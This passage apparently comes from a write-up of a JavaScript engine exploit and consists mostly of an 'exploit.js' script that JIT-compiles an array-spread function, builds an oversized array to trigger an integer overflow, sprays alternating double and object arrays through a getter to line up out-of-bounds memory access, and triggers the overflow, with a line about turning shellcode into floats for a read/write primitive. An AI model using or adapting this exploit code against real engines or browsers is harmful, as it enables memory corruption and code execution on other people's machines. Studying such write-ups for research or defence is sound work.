 We then need to assemble the shellcode, extract the bytes, and convert them to floats that we can write using our R/W primitive.

This gives us the final exploit.js:

```
function jitMe(array, reInitAllocator){
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...reInitAllocator]
}

print("[+] JIT compiling the vulnerable function ")
let dummy = [1.1]
for(let i = 0; i < 85; i++){
  jitMe(dummy, dummy);
}

dummy = 0

let a = []

let len = 0x20000010 / 0x10

print("[+] Making array to trigger the overflow")
for(let i = 0; i < len; i++){
  a[i] = -3.7206620809969885e-103;
}

let b = [];
b.length = 1;

let sprayedArrays = []
let arrayWithDouble = []
let arrayWithContiguous = []

print("[+] Making arrays to prevent slow path")
// this array can only contain doubles
for(let i = 0; i < 0x10; i++){
  arrayWithDouble[i] = 2.0286158381253047e-252
}

// this array can contain doubles and objects
for(let i = 0; i < 0x10; i++){
  arrayWithContiguous[i] = {}
}

b.__defineGetter__(0, () => {
  for(let i = 0; i < 0x8000; i++){
    // we alternate arrays so that when we read out of bounds we can place the desired object directly after it in memory
    if(i % 2 == 0){
      // We use slice to make a copy this replaces new Array(0x10) and will reinitalize the allocator
      sprayedArrays[i] = arrayWithDouble.slice();
    }else{
      sprayedArrays[i] = arrayWithContiguous.slice();
    }
  }
})
print("[+] Triggering the overflow")
let badArray = jitMe(a, b)

```